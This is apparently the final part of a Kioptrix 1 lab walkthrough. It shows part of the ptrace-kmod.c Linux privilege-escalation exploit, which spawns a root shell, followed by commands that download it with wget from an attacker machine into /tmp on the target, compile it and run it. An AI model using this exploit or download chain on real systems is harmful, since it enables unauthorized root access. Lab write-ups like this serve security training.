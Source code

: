 ```c ptrace-kmod.c

	alarm(0);
	system(progname);
}

void prepare(void)
{
	if (geteuid() == 0) {
		initgroups("root", 0);
		setgid(0);
		setuid(0);
		execl(_PATH_BSHELL, _PATH_BSHELL, NULL);
		fatal("[-] Unable to spawn shell");
	}
}

int main(int argc, char ** argv)
{
	prepare();
	signal(SIGALRM, sigalrm);
	alarm(10);
	
	parent = getpid();
	child = fork();
	victim = child + 1;
	
	if (child == -1)
		fatal("[-] Unable to fork");

	if (child == 0)
		do_child();
	else
		do_parent(argv[0]);

	return 0;
}


```

in target vm /tmp:

`wget http://192.168.79.173/ptrace-kmod.c`

'gcc ptrace-kmod.c -o attack'

run attack:

{% img  /images/blog/vulhub/kioptrix1/Selection_010.png   [title manually exploit [alt text]] %}

DONE



